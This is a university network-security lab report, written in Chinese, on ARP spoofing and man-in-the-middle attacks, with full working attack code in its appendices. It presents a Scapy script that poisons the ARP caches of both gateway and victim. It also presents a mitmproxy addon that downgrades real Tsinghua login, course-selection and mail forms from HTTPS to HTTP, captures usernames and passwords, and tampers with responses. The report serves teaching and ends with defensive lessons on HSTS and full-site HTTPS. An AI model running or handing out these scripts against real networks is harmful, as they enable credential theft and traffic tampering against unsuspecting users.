

# 实验二：中间人攻击

- 2015011278 谭闻德：编写及测试攻击脚本、撰写测试分析报告
- 2016010981 陈晟祺：修改攻击脚本、利用攻击脚本进行攻击测试、修改测试分析报告

## 实验原理

通过发送ARP欺骗包（包括回复包以及无偿ARP广播包），可以假冒IP地址，从而截获其他主机发给相应IP地址的流量。通过同时欺骗主机和网关，可以截获主机与网关的双向流量（可能包含密码等敏感信息），从而获知主机上网情况而实施进一步的攻击。

进一步地，通过合理配置iptables，将主机到网关的流量转发到配置好的mitmproxy，甚至可以对主机和HTTP网站实现中间人攻击，篡改受害者浏览到的网页内容。

此外，通过自签发的证书，还可以对安全意识不高的用户实施对于HTTPS网站的中间人攻击。

## 实验环境

本次实验在两套实验环境下进行，分别为虚拟机环境和真实环境。

### 虚拟机环境

为了方便编写、测试和验证攻击脚本，我们使用VMware ESXi配置了虚拟机环境。虚拟机中有三台主机，分别为：网关 `nsl-gateway` 、攻击者 `nsl-attacker` 以及受害者 `nsl-victim` 。它们通过虚拟适配器接入虚拟交换机，实验中我们确保虚拟适配器和虚拟交换机的配置与真实网卡和交换机的配置尽量一致。

主机配置请见下表：

| 主机名       | MAC地址           | IP地址      | 操作系统     |
| ------------ | ----------------- | ----------- | ------------ |
| nsl-gateway  | 00:50:56:b1:16:1b | 10.1.1.1/24 | Ubuntu 18.04 |
| nsl-victim   | 00:50:56:b1:17:36 | 10.1.1.2/24 | Ubuntu 18.04 |
| nsl-attacker | 00:50:56:b1:f9:0a | 10.1.1.3/24 | Ubuntu 18.04 |

### 真实环境

为了测试本攻击在真实无线网络环境下的效果，本实验还使用TL-WDR7500无线路由器搭建了一个模拟真实环境的无线网络。为了说明攻击效果，在攻击时，我们没有对无线路由器做任何特殊处理，而是仅按照正常配置来将其接入互联网。攻击者通过有线网络连接路由器，受害者连接路由器提供的无线网络。

## 实验过程

本次实验分为两个阶段：双向ARP欺骗以及中间人攻击。

### 双向ARP欺骗

双向ARP欺骗同时对主机和网关进行欺骗：对于主机，声称自己是网关；而对于网关，声称自己是主机。这样的双向ARP欺骗能够截获主机到网关以及网关到主机共两个方向的IP包。

本次实验中，我们编写Scapy脚本实现了上述双向ARP欺骗。在受害者询问网关的MAC地址时作为网关回复受害者，在网关询问某一主机的MAC地址时则作为这一主机回复网关。需要说明的是，为了尽量使欺骗能够覆盖正确的回复，脚本每次发出的ARP欺骗包都是重复的三个。同时，攻击者还定期发送“无故ARP”（Gratuitous ARP）包，向同一广播域内的所有主机宣称自己是网关，保证ARP欺骗条目始终存在于各主机的ARP缓存表项中。详细的攻击脚本请见附录1。

由于进行欺骗后，受害者和网关之间的所有流量都会通过攻击者，所以需要打开攻击者操作系统的包转发功能。对于Linux系统而言，一种方法是以 `root` 身份执行如下命令：

```bash
echo 1 > /proc/sys/net/ipv4/conf/all/ip_forward
iptables -A FORWARD -j ACCEPT
```

首先，在虚拟机环境下对上述脚本进行测试。

由于虚拟机环境下的真实网关和受害者都没有任何防护，我们能够观察到两者的ARP缓存表中的项目都已经被污染，并且在受害者和网关看来，网关和受害者的MAC地址均为攻击者。下图即为它们的ARP缓存表：


此时，若受害者ping网关，攻击者可以在攻击者的网卡上捕获到双向的流量，这也说明攻击是成功的。


当受害者以传统的未经加密的 FTP 协议访问某台服务器时，其输入的用户名和密码也能够被攻击者成功捕获：


类似地，攻击者也可以捕获受害者所有的HTTP流量，包括其中的用户名和密码。然而，我们对采用HTTP的清华大学网络学堂进行测试，在受害者登录时攻击者并没有捕获到任何用户名和密码信息。经过查看源代码（请见下面一节的图片），我们发现网络学堂虽然主要采用HTTP，但登录表单使用了HTTPS进行提交。有趣的是，攻击者可以通过中间人攻击来修改HTTP传输的网页，将表单提交地址改回HTTP，然后就可以捕获以明文的HTTP传输的用户名和密码了。这正是所谓的“降级攻击”。

此外，我们在真实环境下进行了同样的测试。由于本次实验使用的无线路由器有一定的ARP欺骗防御功能，在攻击脚本发出“无故ARP”包后，无线路由器会广播真实的“无故ARP”包，期望将各个主机的ARP缓存表恢复为正确的值。为此，我们的攻击脚本在接收到无线路由器广播的真实的“无故ARP”包后，又会立即广播欺骗“无故ARP”包。

下面的图片展示了这样的情况：


如此几个来回之后，我们观察到无线路由器停止发送“无故ARP”包，这意味着各个主机的ARP缓存表项最终记录了攻击者的MAC地址作为网关的MAC地址。但是，在攻击主机抓包，我们仅能够捕获到受害者发往网关的包，而网关发往受害者的包似乎没有经过攻击者，如图所示：


我们猜测这仍然是无线路由器的ARP欺骗防御功能在起作用，无线路由器似乎有能力得知各个主机的真实MAC地址。

### 中间人攻击

为了实现中间人攻击，首先，保持ARP欺骗脚本的运行。然后使用如下命令配置iptables：

```bash
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
```

这通过目标地址NAT，将所有HTTP流量（一般是80端口的流量）转发到本机的mitmproxy，以便进行下一步攻击。

接下来运行 `mitmproxy --mode transparent` 即可看到受害者的每一个HTTP会话，如图所示。


通过编写脚本对mitmproxy捕获的流量进行处理和分析（请见附录2），我们可以自动化地抓取HTTP请求中的用户名和密码，以及修改HTTP响应的内容。

根据上节所述，脚本将网络学堂等校内信息站点的表单提交地址改回了HTTP。下面两张图片分别为攻击前和攻击后的情况：


可以看出，表单提交地址被成功修改，接下来脚本就能成功地从请求中抓取用户名和密码等敏感信息。此外，脚本还以同样的方式处理了选课系统登录页面以及电子邮件系统登录页面。

顺便指出，脚本没有选择替换所有的 `https://` 为 `http://`，而是对于一部分表单提交地址进行了特殊处理。这是由于某些表单提交地址指定了端口，简单的全文替换会导致表单提交地址变为无效。例如，选课系统登录页面将表单提交地址指定为 `https://zhjwxk.cic.tsinghua.edu.cn:443/j_acegi_formlogin_xsxk.do` ，其中含有端口号443，若替换为 `http://zhjwxk.cic.tsinghua.edu.cn:443/j_acegi_formlogin_xsxk.do` ，则变为了无效的地址。

最终，如下图所示，攻击者能够抓取到受害者登录网络学堂的用户名以及密码：


除了降级攻击之外，本实验还添加了一个名为 `x-twd2-message` 的HTTP头，指示网页已被攻击者篡改：


并且，从上面图中的日志可以看到，为了增加本次实验的趣味性，我们还修改了HTTP响应中的图片内容，将彩色的图片转换为纯黑白点阵图片。

根据上节所述，在真实环境中攻击者只能截获受害者发往网关的包，但这足以实现中间人攻击：攻击者可以不将受害者发往网关的包转发给网关，而是代替网关生成包来返回给受害者。经过测试，图片同样能被攻击者修改、用户名和密码等敏感信息也能够被攻击者捕获。

下面几张图片说明了这一点：


同时，我们发现微信中的部分图片同样使用未加密的HTTP传输，也能够被篡改：


此外，由于缓存的作用，在攻击停止后一段时间内，若受害者不手动强制刷新缓存，图片仍然保持为纯黑白。

#### 对HTTPS的中间人攻击

我们还测试了对HTTPS的中间人攻击。为了进行对HTTPS的中间人攻击，需要为iptables增加一条规则：

```bash
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8080
```

上述规则指示攻击者主机的操作系统将HTTPS流量也转发至mitmproxy。攻击脚本无需修改。

当受害者访问某一HTTPS站点时，会出现如图的界面：


自签名的证书如图所示：


若受害者安全意识不高，选择了“继续前往”，那么HTTPS的站点仍然能够被“篡改”，如图所示：


但若站点开启了HSTS，浏览器会完全拒绝受害者的访问，保护了受害者，如图所示：



此外，移动端的情形是类似的：


## 结论

访问未加密的HTTP站点是一种十分危险的行为，只要攻击者能够捕获到流量（如实验一的开放无线网络监听和本次实验的ARP欺骗），受害者就会在毫无知觉的情况下泄露自己的信息。同时，降级攻击的存在也说明了局部HTTPS不是足够安全的，进而可以说明全站HTTPS，甚至全站HSTS，是十分必要的。即便如此，如果用户没有一定的安全意识，轻易信任未通过浏览器验证的HTTPS证书，那么使用HTTPS也只是徒劳。

虽然在实验中我们观察到本次实验使用的无线路由器有一定的ARP欺骗防御功能，但是在激进的攻击方式（如上面一节以及附录1中代码所述）下，这样的防御几乎是徒劳的。如果网关甚至没有任何ARP欺骗防御功能，那么攻击会更加顺利（比如虚拟机环境的攻击测试）。此外，如果交换机有能力过滤欺骗ARP包，那么ARP欺骗可以得到一定程度的缓解。

## 附录

### 附录1 ARP欺骗脚本

```python
#!/usr/bin/env python3
import os
import time

# Send an arbitray ICMP request to get IP and MAC address of the default gateway.
p = srp1(Ether()/IP(dst='1.2.3.4', ttl=0)/ICMP()/'abcdefgh')

gw_ip = p.payload.src
gw_mac = p.src
my_ip = p.payload.dst
my_mac = p.dst

def log(*s):
  print(time.asctime() + ":", *s)

log('My IP:', my_ip)
log('My MAC:', my_mac)
log('Gateway IP:', gw_ip)
log('Gateway Real MAC:', gw_mac)

def packet_cb(p):
  p = p.payload
  if p.psrc == my_ip or p.hwsrc == my_mac: # do not spoof myself
    return
  if p.psrc == p.pdst and p.psrc == gw_ip: # real gateway's gratuitous ARP
    do_reply(gw_ip, 'ff:ff:ff:ff:ff:ff') # gratuitous ARP
    return
  if p.op != 1: # bypass queries other than who-has
    return
  if p.pdst == gw_ip:
    log('{} at {} is requesting gateway\'s MAC...'.format(p.psrc, p.hwsrc))
    do_reply(gw_ip, p.hwsrc, p.psrc) # spoof victim
    do_reply(p.psrc, gw_mac, gw_ip) # spoof gateway
  elif p.psrc == gw_ip:
    log('Gateway is requesting {}\'s MAC...'.format(p.pdst))
    do_reply(p.pdst, p.hwsrc, p.psrc) # spoof gateway
    do_reply(gw_ip, 'ff:ff:ff:ff:ff:ff') # gratuitous ARP, spoof everyone else

def do_reply(fake_ip, dst, pdst=''):
  if dst == 'ff:ff:ff:ff:ff:ff':
    # gratuitous ARP
    hwdst = my_mac
    pdst = fake_ip
  else:
    hwdst = dst
  packet = Ether(dst=dst)/ARP(op='is-at',
                       hwsrc=my_mac,
                       psrc=fake_ip,
                       hwdst=hwdst,
                       pdst=pdst)
  log('Sending packet:')
  packet.show()
  sendp(packet * 3)

def main():
  if os.fork():
    do_packet()
  else:
    do_gratuitous()

def do_packet():
  log('Doing packet')
  while True:
    receive = sniff(filter='arp', count=1000, prn=packet_cb)

def do_gratuitous():
  log('Doing gratuitous')
  while True:
    do_reply(gw_ip, 'ff:ff:ff:ff:ff:ff') # gratuitous ARP
    time.sleep(5)


main()
exit()
```

使用方法：

```bash
sudo scapy -c arp.py
```

### 附录2 中间人攻击脚本

```python
#!/usr/bin/env python3
import urllib.parse
import io
import re
from mitmproxy import ctx
from PIL import Image

PASSWORD_REGEXS = [
  ('learn', re.compile('userid=(?P<username>.+)&userpass=(?P<password>.+)&submit')),
  ('zhjwxk', re.compile('j_username=(?P<username>.+)&j_password=(?P<password>.+)&captchaflag')),
  ('mail', re.compile('uid=(?P<username>.+)&password=(?P<password>.+)&domain'))
]

URL_TRANSFORMS = [
  (b'https://learn.tsinghua.edu.cn/MultiLanguage/lesson/teacher/loginteacher.jsp', b'http://learn.tsinghua.edu.cn/MultiLanguage/lesson/teacher/loginteacher.jsp'),
  (b'https://zhjwxk.cic.tsinghua.edu.cn:443/j_acegi_formlogin_xsxk.do', b'http://zhjwxk.cic.tsinghua.edu.cn/j_acegi_formlogin_xsxk.do'),
  (b'https://mails.tsinghua.edu.cn/coremail/index.jsp', b'http://mails.tsinghua.edu.cn/coremail/index.jsp'),
  (b'https://mail.tsinghua.edu.cn/coremail/index.jsp', b'http://mail.tsinghua.edu.cn/coremail/index.jsp'),
  (b'twd15,15', b'equipment,15')
]

class Trans:
  def __init__(self):
    pass
  
  def request(self, flow):
    try:
      flow.request.query['tp'] = 'jpeg'
    except Exception as e:
      pass
    try:
      for name, regex in PASSWORD_REGEXS:
        m = regex.search(flow.request.text)
        if not m:
          continue
        print('Credential captured from {}:\n\tUsername: {}\n\tPassword: {}'
                .format(name,
                        urllib.parse.unquote_plus(m.group('username')),
                        urllib.parse.unquote_plus(m.group('password'))))
    except Exception as e:
      pass

  def response(self, flow):
    flow.response.headers['x-twd2-message'] = 'You are hacked!'
    for old, new in URL_TRANSFORMS:
      try:
        flow.response.content = flow.response.content.replace(old, new)
      except Exception as e:
        pass
    try:
      stream = io.BytesIO(flow.response.content)
      img = Image.open(stream)
      img = img.convert('1')
      stream = io.BytesIO()
      img.save(stream, format='PNG')
      flow.response.content = stream.getvalue()
      print('Image converted: {}'.format(flow.request.path))
    except Exception as e:
      repr(e)


addons = [
  Trans()
]
```

使用方法：

```bash
mitmdump --mode transparent --showhost -s trans.py -q
```